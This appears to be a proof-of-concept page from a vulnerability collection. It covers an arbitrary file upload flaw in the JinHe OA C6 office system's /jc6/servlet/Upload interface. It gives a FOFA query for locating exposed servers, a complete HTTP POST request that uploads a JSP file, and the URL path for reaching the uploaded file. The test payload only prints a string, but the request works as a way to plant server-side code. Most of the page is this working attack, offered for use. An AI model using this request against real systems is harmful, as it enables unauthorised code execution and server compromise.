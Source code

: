 ## 金和OA_jc6_Upload任意文件上传

金和OA协同办公管理系统C6软件（简称金和OA），本着简单、适用、高效的原则，贴合企事业单位的实际需求，实行通用化、标准化、智能化、人性化的产品设计，充分体现企事业单位规范管理、提高办公效率的核心思想，为用户提供一整套标准的办公自动化解决方案，以帮助企事业单位迅速建立便捷规范的办公环境。金和OA jc6/servlet/Upload接口存在任意文件上传漏洞。

## fofa
```
app="金和网络-金和OA"||body="/jc6/platform/sys/login"
```

## poc
```
POST /jc6/servlet/Upload?officeSaveFlag=0&dbimg=false&path=&setpath=/upload/ HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 197
Content-Type: multipart/form-data; boundary=ee055230808ca4602e92d0b7c4ecc63d

--ee055230808ca4602e92d0b7c4ecc63d
Content-Disposition: form-data; name="img"; filename="1.jsp"
Content-Type: image/jpeg

<% out.println("tteesstt1"); %>
--ee055230808ca4602e92d0b7c4ecc63d--
```
![66cafb6ff95136b967c3b922ceeb8eb6](https://github.com/wy876/POC/assets/139549762/91a0d8aa-f1c0-4da7-aada-ce8a48e8ffbe)

拼接上传路径 http://127.0.0.1/jc6/upload/8a87db028d0c1c8e018d0d8d2d5b1cd9.jsp
